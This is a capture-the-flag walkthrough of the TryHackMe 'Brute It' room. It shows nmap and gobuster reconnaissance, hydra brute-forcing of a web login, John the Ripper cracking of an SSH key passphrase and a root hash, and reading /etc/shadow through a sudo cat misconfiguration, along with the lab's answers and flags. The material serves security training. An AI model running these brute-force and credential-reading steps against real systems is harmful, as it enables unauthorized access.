 ```yaml
---
description: Walkthrough (Easy)
---
```


# Brute It 🟢

[https://tryhackme.com/r/room/bruteit](https://tryhackme.com/r/room/bruteit)

<figure><img src="../.gitbook/assets/image (51).png" alt=""><figcaption></figcaption></figure>

### Task 1 : Turn on Machine

***

### Task 2 : Reconnaissance

<figure><img src="../.gitbook/assets/image (52).png" alt=""><figcaption></figcaption></figure>

```bash
nmap -T4 -sVC 10.10.157.189 -oN nmap
```

#### Q) How many ports are open ?

\-> 2

#### Q) What version of SSH is running?

\-> OpenSSH 7.6p1

#### Q)What version of Apache is running?

\-> 2.4.29

#### Q) Which Linux distribution is running?

\-> ubuntu

#### Q) What is the hidden directory?

\-> /admin

Search for hidden directories on web server.

{% code overflow="wrap" %}
```bash
gobuster dir -u http://10.10.157.189 -w /usr/share/wordlists/SecLists/Discovery/Web-Content/common.txt 
```
{% endcode %}

<figure><img src="../.gitbook/assets/image (53).png" alt=""><figcaption></figcaption></figure>

***

### Task 3 : Getting a shell

#### Q) What is the user:password of the admin panel?

\-> admin:xavier

<figure><img src="../.gitbook/assets/image (54).png" alt=""><figcaption><p>Found User admin in source</p></figcaption></figure>

{% code overflow="wrap" %}
```bash
hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.157.189 http-post-form "/admin/index.php:user=^USER^&pass=^PASS^:F=Username or password invalid"
```
{% endcode %}

\-l -> username\
\-P -> password file\
post-form attack\
F -> When to stop attack ( not found this message)

<figure><img src="../.gitbook/assets/image (55).png" alt=""><figcaption><p>Found Password xavier</p></figcaption></figure>

#### Q) What is John's RSA Private Key passphrase?

\-> rockinroll

* **Found that this ssh file is having Encryption. So lets crack it from John the Ripper**

```bash
ssh2john id_rsa > hash 

john hash --wordlist=/usr/share/wordlists/rockyou.txt 

john hash --show 
```

<figure><img src="../.gitbook/assets/image (42).png" alt=""><figcaption><p>Got rockinroll password lets connect to it</p></figcaption></figure>

<figure><img src="../.gitbook/assets/image (43).png" alt=""><figcaption><p>Connect to john using ssh</p></figcaption></figure>

#### Q ) user.txt

\-> THM{a\_password\_is\_not\_a\_barrier}

<figure><img src="../.gitbook/assets/image (44).png" alt=""><figcaption></figcaption></figure>

#### Q ) Web Flag

\-> THM{brut3\_f0rce\_is\_e4sy}

<figure><img src="../.gitbook/assets/image (45).png" alt=""><figcaption></figcaption></figure>

***

### Task 4 : Privilege Escalation

<figure><img src="../.gitbook/assets/image (46).png" alt=""><figcaption><p>Found user can Run cat without password as a root</p></figcaption></figure>

#### Q) What is the root's password?

\-> football

#### Method 1:&#x20;

* We can see all the users and passwords of a machine in /etc/shadow&#x20;

```bash
sudo /bin/cat /etc/shadow
```

<figure><img src="../.gitbook/assets/image (47).png" alt=""><figcaption><p>Found password hash of root </p></figcaption></figure>

```bash
john root --wordlist=/usr/share/wordlists/rockyou.txt
```

* Save that hash in root file and crack it using John The ripper

<figure><img src="../.gitbook/assets/image (48).png" alt=""><figcaption><p>Root password is football</p></figcaption></figure>

#### Q) Root.txt

\-> THM{pr1v1l3g3\_3sc4l4t10n}

<figure><img src="../.gitbook/assets/image (49).png" alt=""><figcaption><p>Switch user to root with password</p></figcaption></figure>

#### Method 2 :&#x20;

```bash
sudo /bin/cat /root/root.txt
```

* Using sudo privilege direct display the root flag without login to root.

<figure><img src="../.gitbook/assets/image (50).png" alt=""><figcaption></figcaption></figure>
